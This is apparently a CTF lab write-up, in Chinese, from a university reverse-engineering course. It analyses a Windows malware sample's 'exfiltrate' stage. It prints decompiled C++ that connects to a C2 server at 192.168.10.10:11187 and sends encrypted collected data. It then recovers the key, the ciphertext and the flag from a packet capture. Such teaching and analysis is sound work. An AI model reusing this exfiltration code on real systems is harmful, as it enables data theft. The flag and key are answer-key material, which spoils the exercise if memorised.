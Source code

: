 ```yaml
---
title: Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x23(2023 Lab - WinMalware - Exfiltrate)
<!-- more -->

## Description
> 請根據 next stage payload 的行為，分析 capture.pcapng 中的封包，找出並解密被滲出/傳送到 C2 server 的資料。

## Background
* [WSAStartup](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-wsastartup)
* [htons](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock/nf-winsock-htons)
* [socket](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)
* [sockaddr](https://learn.microsoft.com/zh-tw/windows/win32/winsock/sockaddr-2)
* [WSAConnect](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-wsaconnect)

## Source Code
* exfiltrate
    :::spoiler source
    ```cpp
    void __fastcall exfiltrate(PUCHAR pbInput)
    {
      __int64 s[2]; // [rsp+28h] [rbp-10h] BYREF

      connect_to_c2(s);
      send_collected_data_to_c2(s[0], pbInput);
      shutdown(s[0], 1);
      closesocket(s[0]);
    }
    ```
    :::
* connect_to_c2
    :::spoiler source
    ```cpp
    void __fastcall connect_to_c2(unsigned __int64 *a1)
    {
      unsigned __int64 v2; // rax
      struct sockaddr name; // [rsp+20h] [rbp-1B8h] BYREF
      struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

      if ( !WSAStartup(0x202u, &WSAData) )
      {
        *&name.sa_data[2] = 168470720;
        *name.sa_data = htons(0x2BB3u);
        name.sa_family = 2;
        v2 = socket(2, 1, 6);
        *a1 = v2;
        connect(v2, &name, 16);
      }
    }
    ```
    :::
* send_collected_data_to_c2
    :::spoiler source
    ```cpp
    void __fastcall send_collected_data_to_c2(SOCKET s, PUCHAR pbInput)
    {
      char *v4; // rbx
      int v5; // esi
      int i; // eax
      char v7; // al
      int j; // ecx
      int v9; // eax

      v4 = malloc(0x4Cui64);
      *v4 = 0x11877811;
      *(v4 + 1) = 4;
      *(v4 + 2) = 0;
      if ( send(s, v4, 76, 0) > 0xB )
      {
        v5 = 0;
        while ( v5 <= 2 )
        {
          if ( recv(s, v4, 76, 0) > 0xB && *v4 == 0x11877811 )
          {
            v9 = *(v4 + 2);
            if ( v9 )
            {
              switch ( v9 )
              {
                case 1:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 4;
                  *(v4 + 2) = 1;
                  encrypt_key = (v4 + 12);
                  encrypt_data(pbInput);
                  for ( i = 2; i <= 23; ++i )
                    v4[i + 12] += v4[i + 11] - v4[i + 10];
                  break;
                case 2:
                  *v4 = 0x11877811;
                  *(v4 + 1) = 28;
                  *(v4 + 2) = 2;
                  memcpy_s(v4 + 12, 0x18ui64, cipher, 0x18ui64);
                  break;
                case 3:
                  goto LABEL_20;
              }
            }
            else
            {
              *v4 = 0x11877811;
              *(v4 + 1) = 4;
              *(v4 + 2) = 0;
            }
            for ( j = 0; j <= 39; ++j )
            {
              v7 = v4[j + 36] + v4[43] + v4[49] - v4[67];
              v4[j + 36] = v7;
              v4[j + 36] = v4[54] - (v4[61] + v4[69]) + v7;
            }
            send(s, v4, 76, 0);
            ++v5;
          }
        }
    LABEL_20:
        free(v4);
      }
    }
    ```
    :::

## Recon
1. `connet_to_c2`
    目標是取得c2 server的IP和port number
    1. 先看到#12的socket function，他代表的意思是利用IPv4並且TCP的protocol進行溝通，相關的數值說明都在[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/nf-winsock2-socket)，可以用前面教到的用m指令改變已知的constant名稱$\to$`v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);`
    2. 接著看到connect function中的`&name`，IDA原本解析成sockaddr，sockaddr是一種通用的結構格式，所以IDA解析出來的東西也沒有問題，不過如果是IPv4又是乙太網路的傳輸，會比較建議把結構改成==sockaddr_in==，[這一篇](https://blog.csdn.net/tao546377318/article/details/72780685)探討了兩者的區別(其實就只是把sockaddr原本的結構擴展而已)，這樣的話整體分析會更好
        :::spoiler 解析後
        ```cpp
        void __fastcall connect_to_c2(unsigned __int64 *a1)
        {
          unsigned __int64 v2; // rax
          struct sockaddr_in name; // [rsp+20h] [rbp-1B8h] BYREF
          struct WSAData WSAData; // [rsp+30h] [rbp-1A8h] BYREF

          if ( !WSAStartup(0x202u, &WSAData) )
          {
            name.sin_addr.S_un.S_addr = 0xA0AA8C0;      // IP: 192.168.10.10
            name.sin_port = htons(11187u);              // Port No.: 11187
            name.sin_family = AF_INET;
            v2 = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
            *a1 = v2;
            connect(v2, &name, 16);
          }
        }
        ```
        :::
    :::info
    IP: 0xA0AA8C0 $\to$ `192.168.10.10`(little endian轉十進位)
    Port: `11187`
    sin.family: IPv4
    Protocol: TCP
    :::
2. `send_collected_data_to_c2`
    1. 先切分程式碼的功能
        ![](https://hackmd.io/_uploads/rkci81Aza.png)
        有時候通靈不一定很準，所以要適時的回頭檢查自己的猜測
    2. 前四行初始化的階段(malloc 0x4c然後塞三個dword)，應該是作者自定義的結構，可以利用Structures，自定義一個新的結構，大小就是0x4C，然後前三個可以定義為dd，並且把v4的結構改成packet(按Y)
        ![](https://hackmd.io/_uploads/ByQtqk0Mp.png)
    3. 各種rename
        * field_0看起來像是一個magic bytes，因為一開始附值之後，傳送過去server，再接收回來的packet也是有做驗證的動作，所以看起來是一個verification magic
        * field_8看起來就是接收來自server下達的command
        * field_C就比較多元，在case 1的時候是當作承接server給的encryption key(大小是8個bytes)，但在case 2是當作加密的cipher(大小是0x18個bytes)，所以我取名`enc_key_or_data`，另外大小是0x18(可以從memcpy的大小看出來)，所以可以按Y改變型別成`char[0x18]`
    :::info
    目前整體的流程
    ![](https://hackmd.io/_uploads/HJJB7gCf6.png)
    ![](https://hackmd.io/_uploads/BkHSXeCM6.png)
    :::
    
    ---
    4. 分析pcap
        這一部就直接對照著講義上截圖或是剛剛分析的封包格式就可以知道哪一個是key哪一個是cipher
        Key: `f0 c7 d3 0e 7f 2c 15 ba`
        Cipher: `43 60 5b 5f 4e ba 9f 9e e3 78 6f 55 cb 81 24 fa e7 bf 0d 1b 3c 24 b7 4e`
        接下來就可以直接用cipherchef的線上功能decrypt其中的內容

:::success
![](https://hackmd.io/_uploads/HJdetgRGp.png)

Flag: `FLAG{C2_cU540m_Pr0t0C01}`
:::